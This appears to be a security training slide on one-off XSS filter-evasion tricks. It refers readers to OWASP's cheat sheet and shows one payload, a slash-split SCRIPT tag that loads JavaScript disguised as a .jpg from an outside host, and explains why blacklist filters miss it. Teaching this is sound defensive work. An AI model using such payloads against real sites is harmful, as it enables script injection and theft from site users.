

# One off tricks
Check out OWASP’s Filter evasion cheat sheet.
There are many one off attack vectors that may work against IE but not Firefox or chrome.
This one is a favorite for me.
 <SCRIPT/XSS SRC="http://asite.com/xss.jpg"></SCRIPT>
Firefox will ignore the forward slash between script and XSS as it’s not part of the script tag. However blacklist filters will only see a <SCRIPT/XSS tag.
Also notice that the script file is actually a image extension? If you rename a JavaScript file it’s still read as JavaScript.